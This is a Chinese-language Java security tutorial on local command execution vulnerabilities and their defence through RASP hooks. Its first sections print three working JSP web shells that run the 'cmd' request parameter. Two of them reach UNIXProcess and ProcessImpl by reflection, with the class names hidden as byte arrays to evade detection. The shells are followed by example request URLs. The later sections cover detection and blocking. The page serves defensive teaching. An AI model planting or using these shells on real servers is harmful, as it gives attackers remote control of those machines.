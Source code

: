 # 本地命令执行漏洞

攻击者一旦可以在服务器中执行任意本地系统命令就意味着服务器已被非法控制，在Java中可用于执行系统命令的方式有API有：`java.lang.Runtime`、`java.lang.ProcessBuilder`、`java.lang.UNIXProcess`/`ProcessImpl`。



## 1. Java本地命令执行测试

**示例 - 存在本地命令执行代码(`java.lang.Runtime`)：**

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.InputStream" %>
<pre>
<%
    Process process = Runtime.getRuntime().exec(request.getParameter("cmd"));
    InputStream in = process.getInputStream();
    int a = 0;
    byte[] b = new byte[1024];

    while ((a = in.read(b)) != -1) {
        out.println(new String(b, 0, a));
    }

    in.close();
%>
</pre>
```

攻击者通过向 `cmd` 参数传入恶意的代码即可在服务器上执行任意系统命令，请求：[http://localhost:8000/modules/cmd/cmd.jsp?cmd=ls](http://localhost:8000/modules/cmd/cmd.jsp?cmd=ls)，如下图：

![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/image-20200920232032191.png)

由于传入的`cmd`参数仅仅是一个两位的英文字母，传统的WAF基本都不具备对该类型的攻击检测，所以如果没有RASP的本地命令执行防御会导致攻击者可以在服务器中执行恶意的命令从而控制服务器。



## 2. 深层调用命令执行测试

**示例 - 存在本地命令执行代码(`java.lang.UNIXProcess`)：**

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.*" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="java.lang.reflect.Method" %>
<pre>
<%
    String[] cmd = request.getParameterValues("cmd");

    if (cmd != null) {
        Class clazz = Class.forName(new String(new byte[]{
                106, 97, 118, 97, 46, 108, 97, 110, 103, 46,
                85, 78, 73, 88, 80, 114, 111, 99, 101, 115, 115
        }));

        Constructor constructor = clazz.getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        byte[][] args = new byte[cmd.length - 1][];
        int      size = args.length; // For added NUL bytes

        for (int i = 0; i < args.length; i++) {
            args[i] = cmd[i + 1].getBytes();
            size += args[i].length;
        }

        byte[] argBlock = new byte[size];
        int    i        = 0;

        for (byte[] arg : args) {
            System.arraycopy(arg, 0, argBlock, i, arg.length);
            i += arg.length + 1;
        }

        byte[] bytes  = cmd[0].getBytes();
        byte[] result = new byte[bytes.length + 1];
        System.arraycopy(bytes, 0, result, 0, bytes.length);
        result[result.length - 1] = (byte) 0;

        Object object = constructor.newInstance(
                result, argBlock, args.length,
                null, 1, null, new int[]{-1, -1, -1}, false
        );

        Method inMethod = object.getClass().getDeclaredMethod("getInputStream");
        inMethod.setAccessible(true);

        InputStream in = (InputStream) inMethod.invoke(object);
        int a = 0;
        byte[] b = new byte[1024];

        while ((a = in.read(b)) != -1) {
            out.println(new String(b, 0, a));
        }

        in.close();
    }
%>
</pre>
```

**示例 - 存在本地命令执行代码(`java.lang.ProcessImpl`)：**

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="java.lang.reflect.Method" %>
<%@ page import="java.util.Scanner" %>

<%
    String str = request.getParameter("cmd");

    if (str != null) {
        Class clazz = Class.forName(new String(new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 80, 114, 111, 99, 101, 115, 115, 73, 109, 112, 108}));

        Constructor<?> constructor = clazz.getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        Object object   = constructor.newInstance(str.split("\\s+"), null, "./", new long[]{-1L, -1L, -1L}, false);
        Method inMethod = object.getClass().getDeclaredMethod("getInputStream");
        inMethod.setAccessible(true);
        InputStream in = (InputStream) inMethod.invoke(object);
        Scanner     s  = new Scanner(in).useDelimiter("\\A");

        out.println("<pre>");
        out.println(s.hasNext() ? s.next() : "");
        out.println("</pre>");
        out.flush();
        out.close();
    }
%>
```

这部分对于 linux 和 windows 系统的攻击代码有所差异，但原理上一致。

Linux系统，请求：[http://localhost:8000/modules/cmd/linux-cmd.jsp?cmd=ls](http://localhost:8000/modules/cmd/linux-cmd.jsp?cmd=ls)，如下图：

![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/image-20200920232507347.png)

Windows系统，请求：[http://localhost:8000/windows-cmd.jsp?cmd=cmd%20/c%20dir%20](http://localhost:8000/windows-cmd.jsp?cmd=cmd%20/c%20dir%20)，如下图：

![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/image-20200920233748774.png)



## 3. 本地命令执行防御

本地命令执行是一种非常高风险的漏洞，在任何时候都应当非常谨慎的使用，在业务中如果使用到了本地系统命令那么应当禁止接收用户传入参数。在很多时候攻击者会利用某些漏洞（如：Struts2、反序列化等）来攻击我们的业务系统，最终利用Java本地命令执行达到控制Web服务器的目的。这种情况下用户执行的系统命令对我们来说就不再受控制了，我们除了可以配置`SecurityManager`规则限制命令执行以外，使用RASP来防御本地命令执行就显得更加的便捷可靠。



### 3.1 RASP防御Java本地命令执行

在Java底层执行系统命令的API是`java.lang.UNIXProcess/ProcessImpl#forkAndExec`方法，`forkAndExec`是一个native方法，如果想要Hook该方法需要使用Agent机制中的`Can-Set-Native-Method-Prefix`，为`forkAndExec`设置一个别名，如：`__RASP__forkAndExec`，然后重写`__RASP__forkAndExec`方法逻辑，即可实现对原`forkAndExec`方法Hook。

**示例 - Java本地命令执行API：**

![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/image-20201115200801836.png)

使用RASP的Hook机制捕获当前正在执行的系统命令，不过不同的API获取执行的命令参数的方式不太一样。

**示例 - Hook java.lang.ProcessImpl执行系统命令：**

```java
/**
 * Hook Windows系统ProcessImpl类构造方法
 */
@RASPMethodHook(
      className = "java.lang.ProcessImpl", methodName = CONSTRUCTOR_INIT,
      methodArgsDesc = ".*", methodDescRegexp = true
)
public static class ProcessImplHook extends RASPMethodAdvice {

   @Override
   public RASPHookResult<?> onMethodEnter() {
      try {
         String[] commands = null;

         // JDK9+的API参数不一样！
         if (getArg(0) instanceof String[]) {
            commands = getArg(0);
         } else if (getArg(0) instanceof byte[]) {
            commands = new String[]{new String((byte[]) getArg(0))};
         }

         // 检测执行的命令合法性
         return LocalCommandHookHandler.processCommand(commands, getThisObject(), this);
      } catch (Exception e) {
         RASPLogger.log(AGENT_NAME + "处理ProcessImpl异常:" + e, e);
      }

      return new RASPHookResult<?>(RETURN);
   }

}
```



#### 3.1.1 请求参数关联分析

获取到本地命令执行的参数后需要与Http请求的参数进行关联分析，检测当前执行的系统命令是否与请求参数相关，如果确认当前执行的系统命令来源于Http请求参数，那么RASP会立即阻止命令执行并阻断Http请求。

#### 3.1.2 限制执行本地系统命令

因为本地命令执行的危害性极大，所以在默认情况下可以直接禁止本地命令执行，如果业务的确有必要开启那么可以对相应的业务URL做白名单。限制的方式可分为两种类型：

1. 完全限制本地命令执行，禁止在Java中执行任何命令；
2. 允许程序内部的本地命令执行，只在有Http请求的时候才禁止执行命令；

这两种类型的禁止方案为可选方案，可在RASP的云端实时配置。

**示例 - 禁止在HTTP请求时执行本地系统命令：**

![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/image-20201115203039369.png)

